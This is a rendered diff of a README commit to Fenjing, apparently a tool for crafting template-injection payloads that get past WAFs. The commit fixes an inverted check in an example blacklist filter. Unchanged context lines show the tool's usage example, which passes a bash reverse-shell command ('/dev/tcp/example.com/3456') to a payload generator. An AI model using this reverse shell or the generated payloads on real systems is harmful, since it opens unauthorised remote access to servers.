

Before and after one commit to Marven11/Fenjing, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -253,7 +253,7 @@ def waf(s: str):
         "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
         "０","１","２","３","４","５","６","７","８","９"
     ]
-    return all(word in s for word in blacklist)
+    return all(word not in s for word in blacklist)
 
 if __name__ == "__main__":
     shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
```
Also changed, not shown: README_en.md (+1 -1 lines).
